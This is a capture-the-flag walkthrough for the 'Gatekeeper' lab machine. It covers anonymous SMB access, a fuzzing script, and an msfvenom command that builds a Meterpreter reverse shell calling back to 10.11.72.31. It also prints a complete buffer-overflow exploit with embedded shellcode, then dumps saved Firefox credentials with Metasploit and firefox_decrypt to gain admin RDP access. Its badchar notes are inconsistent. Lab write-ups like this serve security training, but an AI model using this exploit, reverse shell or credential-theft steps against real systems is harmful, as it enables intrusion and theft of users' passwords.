


gatekeeper
Gatekeeper
Nmap shows 2 intresting ports.
445 : Samba share
It has anonymous access, login without any username and any password.
Under the share User, there is a folder named share which has the gatekeeper.exe application.
Download it and run it in local windows machine for reverse engineering.
Finding offset is same as earlier.
Use following code.
#!/usr/bin/env python3
import socket, time, sys
ip = "11.11.11.123"
port = 31337
timeout = 5
prefix = ""
string = prefix + "A" * 100
while True:
try:
with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
s.settimeout(timeout)
s.connect((ip, port))
s.recv(1024)
print("Fuzzing Gatekeeper with {} bytes".format(len(string) - len(prefix)))
s.send(bytes(string, "latin-1"))
s.recv(1024)
except:
print("Fuzzing crashed at {} bytes".format(len(string) - len(prefix)))
sys.exit(0)
string += 100 * "A"
time.sleep(1)
Offset found : 146
Then finding the badchars, there is a possbile bug which keeps on showing badchar as \x00\x01\x02\x03 and so on.
Taken from internet: actual badchars : /x01/x0a
Find jump address, put it in retn.
Create a meterpreter payload, as we will need certain post exploits for privilege escalation.
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.11.72.31 LPORT=7777 EXITFUNC=thread -b "\x00\x0a" -f c
Use the code below:
#!/usr/bin/env python3
#Badchars Considered:"\x00\x0a"
import socket, time, sys
ip = "10.10.56.226"
port = 31337
timeout = 5
prefix = ""
offset = 146
overflow = "A" * offset
retn = "\xbf\x16\x04\x08"
padding = "\x90" * 10
payload = ("\xda\xdb\xd9\x74\x24\xf4\xb8\x1c\x1f\x48\xa5\x5e\x31\xc9\xb1"
"\x5e\x31\x46\x1a\x83\xee\xfc\x03\x46\x16\xe2\xe9\xe3\xa0\x2a"
"\x11\x1c\x31\x55\x20\xce\xb8\x70\x26\x65\xe8\x4a\x2d\x2b\x01"
"\x20\x63\xd8\x28\xc9\x08\x92\x62\x3a\xb9\x19\x55\x75\x05\x31"
"\xa5\x14\xf9\x48\xfa\xf6\xc0\x82\x0f\xf6\x05\x55\x65\x17\xdb"
"\x31\x0e\xb5\xcb\x36\x52\x06\xea\x98\xd8\x36\x94\x9d\x1f\xc2"
"\x28\x9f\x4f\xa0\xf8\x87\xe4\xef\xd8\xe7\xfb\xdc\x9d\xc1\x88"
"\xde\xd4\x5a\x44\x94\xe7\x8a\x94\x55\xd6\xf2\x16\x66\x15\x5f"
"\x99\xbe\x1d\x7f\xef\xb4\x5e\x02\xe8\x0e\x1d\xd8\x7d\x91\x85"
"\xab\x26\x75\x34\x7f\xb0\xfe\x3a\x34\xb6\x59\x5e\xcb\x1b\xd2"
"\x5a\x40\x9a\x35\xeb\x12\xb9\x91\xb0\xc1\xa0\x80\x1c\xa7\xdd"
"\xd3\xf8\x18\x78\x9f\xea\x4f\xfc\x60\xf5\x6f\xa0\xf6\x3a\xa2"
"\x5b\x07\x54\xb5\x28\x35\xfb\x6d\xa7\x75\x74\xa8\x30\x0f\x92"
"\x4b\xee\xb7\xf2\xb5\x0f\xc8\xdb\x71\x5b\x98\x73\x53\xe4\x73"
"\x83\x5c\x31\xe9\x89\xca\xb0\xe5\xc5\x15\xad\xfb\xd5\x37\x4c"
"\x75\x33\x17\xde\xd5\xeb\xd8\x8e\x95\x5b\xb1\xc4\x19\x84\xa1"
"\xe6\xf3\xad\x48\x09\xaa\x86\xe4\xb0\xf7\x5c\x94\x3d\x22\x19"
"\x96\xb6\xc7\xde\x59\x3f\xad\xcc\x8e\x58\x4d\x0c\x4f\xcd\x4d"
"\x66\x4b\x47\x19\x1e\x51\xbe\x6d\x81\xaa\x95\xed\xc5\x55\x68"
"\xc4\xbe\x60\xfe\x68\xa8\x8c\xee\x68\x28\xdb\x64\x69\x40\xbb"
"\xdc\x3a\x75\xc4\xc8\x2e\x26\x51\xf3\x06\x9b\xf2\x9b\xa4\xc2"
"\x35\x04\x56\x21\x46\x43\xa8\xb4\x61\xec\xc1\x46\x32\x0c\x12"
"\x2c\xb2\x5c\x7a\xbb\x9d\x53\x4a\x44\x34\x3c\xc2\xcf\xd9\x8e"
"\x73\xd0\xf3\x4f\x2a\xd1\xf0\x4b\xdd\xa8\x79\x6b\x1e\x4d\x90"
"\x08\x1e\x4e\x9c\x2e\x22\x99\xa5\x44\x65\x1a\x92\x47\x78\xb6"
"\xef\xef\x25\x53\x52\x72\xd6\x8e\x91\x8b\x55\x3a\x6a\x68\x45"
"\x4f\x6f\x34\xc1\xbc\x1d\x25\xa4\xc2\xb2\x46\xed")
postfix = ""
string = overflow + retn + padding + payload
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
try:
s.connect((ip, port))
print("Delivering Payload into Gatekeeper.")
#s.send(bytes(username, "latin-1"))
time.sleep(1)
s.send(bytes(string + "\r\n", "latin-1"))
print("Done!")
except:
print("Could not connect.")
Start a multi handler in msfconsole
Run the exploit to get session.
Get the user flag in the desktop of the user.
Privilege escalation
We find the firefox is running on the target machine.
We use a msfconsole post exploit tool to dump the credentials.
use post/multi/gather/firefox_creds
Give session id as option
run
We will get the files in loot folder.

Now go to the locations of loot and copy/move the files with their actual names.
After move/copy the following should be the contents.

Then get the firefox_decrypt from github. https://github.com/unode/firefox_decrypt
Then run it inside the dump folder using.
python /opt/firefox_decrypt/firefox_decrypt.py .

As we can see, we got username and password. Its actually admin user.
We can rdp into the machine using the above credentials and get the root flag.
Note:
The initial program exploitation into shell is not given in this guide. But is same as the brainstorm and training link mentioned below
For detailed explanation about offset finding and exploiting the app is explained in details in "CybeXRay Guides -----→ Reverse Engineering -----→ Buffer Overflows Using ID & mona"